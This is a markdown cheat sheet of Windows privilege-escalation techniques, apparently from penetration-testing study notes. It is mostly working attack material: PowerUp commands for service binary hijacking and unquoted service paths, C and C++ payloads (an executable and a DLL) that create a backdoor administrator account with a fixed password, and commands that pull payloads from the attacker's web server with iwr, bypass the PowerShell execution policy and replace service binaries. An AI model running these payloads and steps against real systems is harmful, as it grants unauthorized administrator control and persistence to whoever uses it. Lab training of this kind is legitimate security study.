 # Windows PrivEsc
Before attempting to leverage the techniques laid out below the enumeration tactics from the `enumeration/windows.md` section should be leveraged.

## Automatic PrivEsc

### Binary Hijacking (PowerUp.ps1)
Nb. This tool (like most) should not be trusted implicitly always and if it fails where enumeration suggests it ought to have succeeded then manual techniques should be employed. By default on a successful exploit it will create an admin user with name `john` and password `Password123!`.

Grab PowerUp:
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
```
Identify the vulnerable binary:
```powershell
Get-ModifiableServiceFile
```
and exploit:
```powershell
Install-ServiceBinary -Name 'vulnerable-service'
```

### Unquoted Service Paths (PowerUp.ps1)
Grab PowerUp:
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
```
Identify the vulnerable service:
```powershell
Get-UnquotedService
```
With the vulnerable service identified, feed forward the name and path:
```powershell
Write-ServiceBinary -Name 'VulnerableService' -Path "C:\Program Files\Dumb Apps\Tomfoolery.exe"
```

## Manual PrivEsc

### Binary Hijacking
Save the following `C` file on Kali host as `adduser.c`:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user ggilligan12 password123! /add");
  i = system ("net localgroup administrators ggilligan12 /add");
  
  return 0;
}
```
Cross-compile like so, then start the ever faithful web server:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python3 -m http.server 80
```
On the target machine grab the binary:
```powershell
iwr -uri http://<our IP>/adduser.exe -Outfile adduser.exe
```
Move the original binary to a safe place, and replace it with our payload:
```powershell
move C:\path\to\vulnerable\binary.exe binary.exe
move .\adduser.exe C:\path\to\vulnerable\binary.exe
```
Finally restart the service:
```powershell
net stop vulnerable-service
```
If that fails try restarting the machine altogether, leveraging the possiblity that the service will start automatically on startup (verifying this is the case can be done with the relevant command in the `enumeration/windows.md` section):
```powershell
shutdown /r /t 0
```

### DLL Hijacking
Sometimes the file that hosts a binary executable that is running as a service will not be writable, but the DLLs it uses might be. In this event we have an additional way to execute system commands with elevated privilege and add our admin user.

Save the following `C++` file on Kali host as `adduser.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user ggilligan12 password123! /add");
        i = system ("net localgroup administrators ggilligan12 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross compile and serve:
```bash
x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll
python3 -m http.server 80
```
Grab it on the target machine:
```powershell
iwr -uri http://<our IP>/adduser.dll -Outfile adduser.dll
```
Shift it to the vulnerable directory and rename appropriately. Then restart the relevant service:
```powershell
Restart-Service vulnerable-service
```

### Unquoted Service Paths
Run the following to establish the presence of an unquoted service path:
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
If one is found, then write the appropriate malicious binary to the correct path. The C program in the Binary Hijacking section will do nicely.

If the unquoted path reads:
```
C:\Program Files\Silly little spaces\myProgram.exe
```
then we have our choice of the following to write our payload to:
```
C:\Program.exe
C:\Program Files\Silly.exe
C:\Program Files\Silly little.exe
```
There will be as many potential locations of malicious payload as there are spaces in the unquoted service path.